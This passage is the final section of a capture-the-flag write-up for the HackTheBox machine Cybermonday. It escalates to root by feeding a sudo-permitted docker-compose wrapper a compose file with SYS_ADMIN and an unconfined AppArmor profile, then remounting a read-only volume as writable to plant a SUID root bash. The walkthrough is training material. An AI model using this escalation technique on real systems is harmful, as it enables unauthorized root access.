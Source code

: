 # HTB Cybermonday - Composing Root Access

[Initial Enumeration](/writeups/machines/htb-cybermonday/1-initial-enumeration)
[Webhook API Admin Access](/writeups/machines/htb-cybermonday/2-webhook-api-admin)
[Obtaining More Info](/writeups/machines/htb-cybermonday/3-obtaining-more-info)
[Gaining a Foothold](/writeups/machines/htb-cybermonday/4-gaining-a-foothold)
[Where to Now?](/writeups/machines/htb-cybermonday/5-where-to-now)
[Reading the Source](/writeups/machines/htb-cybermonday/6-reading-the-source)
[**Composing Root Access**](/writeups/machines/htb-cybermonday/7-composing-root-access)

Okay, I know that getting to user was a slog, but getting root is much easier, I promise. Look this is the last part left. After doing our initial enumeration again, we don't find much that could be exploited except for a [[python|Python]] script called `secure_compose.py`. We're able to read the file so let's view it and see what's going on.
```python
#!/usr/bin/python3
import sys, yaml, os, random, string, shutil, subprocess, signal

def get_user():
    return os.environ.get("SUDO...
```

It looks like this script takes a [[docker|docker-compose.yml]] file from a user, builds any images in it, and runs the containers. What makes it secure is the fact that you're unable to create privileged containers, and all file mounts are restricted to specific places and must be read only. It also checks you're not cheating the file location using a Symlink. Lucky for us this is all it checks, and Docker has a number of features that let us abuse this script to gain root. In our case, we're simply going to create a [[suid|SUID]] `bash` executable that will let us gain a root shell. But how are we going to do that if all our mounts are read only? Well remount them as read/write of course.

First we need to prepare a `docker-compose.yml`, `Dockerfile`, and `run.sh` file for our container. In theory you could do everything in the `docker-compose` but we're going to keep each part separate and simple so it's clear what's happening. In order to remount a directory, we need to give our container the `SYS_ADMIN` capability and add the security option `apparmor:unconfined`. As for the image to use, we'll go back to our trusty `cybermonday_api` since we know the host is already running it. As the script copies our `docker-compose` file to a temporary folder, we'll need to specify the location of the `Dockerfile`.

So our `docker-compose.yml` should look like:
```yaml
version: '3'
services:
  exploit:
    build: /home/john/docker
    volumes:
      - /home/john/docker:/mnt:ro
    cap_add:
      - SYS_ADMIN
    security_opt:
      - apparmor:unconfined
```

Our `Dockerfile` should look like:
```dockerfile
FROM cybermonday_api:latest
COPY run.sh /opt/run.sh
CMD /bin/sh /opt/run.sh
```

And finally for our script we'll run:
```bash
mount -o remount,rw /mnt
cp /bin/bash /mnt/bash
chown root:root /mnt/bash
chmod 4777 /mnt/bash
```

Upload these all to a folder called `docker` in the home directory for `john`. It's easier to keep track of everything that way and we can just delete the folder to clean up once we're done so it's not spoilt for the next person. Once you're got everything ready it's time to run secure compose. 
```bash
sudo /opt/secure_compose.py docker-compose.yml
```

`ls` our directory and we should see a shiny new `bash` executable. Let's try running it now.
```bash
./bash -p

./bash: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.33' not found...
```

Oh dear. It looks like the `cybermonday_api` image uses a different version of `glibc`. Not to worry, there is one place where we know that we have a working copy of `bash`; the host itself. Let's change our `run.sh` script slightly.
```bash
mount -o remount,rw /mnt
chown root:root /mnt/bash
chmod 4777 /mnt/bash
```

Then we just copy `bash` into our `docker` directory, and run the `secure_compose` script again.
```bash
cp /bin/bash ~/docker
sudo /opt/secure_compose.py docker-compose.yml
./bash -p

bash-5.1# whoami
root
```

Copy the root flag from `/root/root.txt` and delete the `~/docker` directory, then celebrate that you've finished this machine.